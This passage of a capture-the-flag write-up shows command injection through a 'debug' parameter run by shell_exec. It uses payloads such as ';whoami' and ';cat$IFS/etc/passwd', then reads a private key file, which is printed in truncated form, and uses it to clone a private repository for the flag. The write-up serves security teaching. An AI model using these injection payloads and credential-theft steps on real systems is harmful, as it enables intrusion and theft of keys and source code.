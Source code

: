 The `debug` parameter was added to the `command` string and then executed with `shell_exec`. To get an RCE you had to first break the command `python ../test./py <yourdebug>`. A semi-colon can break the command into multiple pieces because the command string will then become: `python ../test.py ;<yourcommand>`. This will then execute test.py first and then your command. So if you did `?debug=;whoami` it will display: `www-data`. Once you have the RCE the first thing to check is if you can access `/etc/passwd`. If you try `cat /etc/passwd` it will not work and you will get a 500 internal server error. This required using `$IFS` to add whitespace when sending the request to read /etc/passwd. So your command will be `;cat$IFS/etc/passwd`. 

3) Third Access

Once you confirm that your RCE works, you can start listing the files. One of the files in the sub-directory where test.py existed was a `priv_key` file. This was an RSA generated private key for a user. The command to print it out was: `cat$IFS../priv_key`. This will give the private key: 

```
MIIJKQIBAAKCAgEAuzexPlI2iV4PWLI6QCmP/FCzZjDANkBSy9FMeWumHtEWgujP
3jBA/HrNYHeuyr0TIvNz1mCcNC2IRglaMRHdHgA1VPdywkurWyN/3bmfowngpBim
......
eAk1JEACo34qKUV+Ew2R8Z89qsvU480S9NGyLhhakAgWKgaSRLFB7SHe1EBxTnOk
BPQQYQYwERnOCdlrgx5NlZXDgQH0DpDc5LBGOA1sng41VP/MMue3cBP8cOCpb+WA
zdXs//MQ5tckwAa1xUAS7zkLi4Jm64KCPqda76Efo9EPbwqd90A3n8UCTEyX
```

If you have a user's private key, there are multiple things you can do. This challenge required using the private key along with `git` to download source code of Gotham University. Gotham Edu has their Github at https://github.com/gothamedu. Once you have the private key, you can generate a public key from it by using: `ssh-keygen -y -f <privatekey location> > <public key export>`. This will export a .pub file which is the public key generated based on the private key. Once you generate the public key, change the permission for both the private key and the public key to `chmod 600 id_rsa (or whatever you name the private key)` and `chmod 600 id_rsa.pub (or whaever the .pub is)`. 

Once this is done, using `git clone git@github.com:gothamedu/Production.git` to download the source code. After this the flag is located at: `school_students/app/__init__.py` : `bcunivflag{SSRF_CAN_BE_BAD_49819919}`
